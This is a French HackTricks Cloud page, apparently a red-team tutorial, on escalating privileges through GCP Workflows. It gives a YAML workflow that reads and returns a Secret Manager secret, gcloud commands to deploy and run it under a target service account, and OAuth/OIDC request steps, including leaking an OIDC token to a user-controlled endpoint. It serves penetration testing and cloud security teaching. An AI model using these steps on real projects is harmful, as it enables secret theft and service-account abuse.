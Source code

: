 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informations de base :

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

À ma connaissance, il n'est pas possible d'obtenir un shell avec accès à l'endpoint de métadonnées contenant les identifiants de service (SA) du SA attaqué à un Workflow. Cependant, il est possible d'abuser des permissions du SA en ajoutant les actions à effectuer à l'intérieur du Workflow.

Il est possible de trouver la documentation des connecteurs. Par exemple, voici la [**page du connecteur Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Dans la barre latérale, il est possible de trouver plusieurs autres connecteurs.

Et ici, vous pouvez trouver un exemple de connecteur qui imprime un secret :
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Mise à jour depuis la CLI :
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si vous obtenez une erreur comme `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, il suffit de **patienter une minute et d'essayer à nouveau**.

Si vous n'avez pas accès au web, il est possible de déclencher et de voir l'exécution d'un Workflow avec :

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Vous pouvez également vérifier la sortie des exécutions précédentes pour rechercher des informations sensibles.
{% endhint %}

Notez que même si vous obtenez une erreur comme `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` parce que vous n'avez pas cette permission, le workflow a été généré.

### Fuite du token OIDC (et OAuth ?)

Selon [**la documentation**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), il est possible d'utiliser des étapes de workflow qui enverront une requête HTTP avec le token OAuth ou OIDC. Cependant, tout comme dans le cas de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la requête HTTP avec le token Oauth doit être envoyée à l'hôte `.googleapis.com`.

{% hint style="danger" %}
Par conséquent, il est **possible de fuir le token OIDC en indiquant un point de terminaison HTTP** contrôlé par l'utilisateur, mais pour fuir le **token OAuth**, vous auriez **besoin d'un contournement** pour cette protection. Cependant, vous pouvez toujours **contacter n'importe quelle API GCP pour effectuer des actions au nom du SA** en utilisant soit des connecteurs, soit des requêtes HTTP avec le token OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Avec cette permission au lieu de `workflows.workflows.create`, il est possible de mettre à jour un workflow déjà existant et d'effectuer les mêmes attaques.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
